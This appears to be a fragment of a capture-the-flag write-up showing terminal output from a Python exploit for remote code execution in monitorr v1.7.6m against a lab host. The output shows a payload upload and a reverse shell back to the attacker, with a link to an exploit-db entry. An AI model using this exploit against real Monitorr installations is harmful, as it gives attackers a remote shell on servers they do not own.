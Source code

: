 ### **Remote Code Execution monitorr v1.7.6m**

```bash
$ python3 monitorr.py
[*] Example usage: 
        > url: https://monitorr.robyns-petshop.thm
        > local ip: 57.123.456.789
        > local port: 443
-------------------------
> url (include schema): https://monitorr.robyns-petshop.thm
> local ip: 10.4.1.61
> local port: 443
[+] Successfully upload payload
[+] Triggering reverse shell
[*] Should've got rev shell
```
<br>

+ Reference: [ https://www.exploit-db.com/exploits/48980 ]
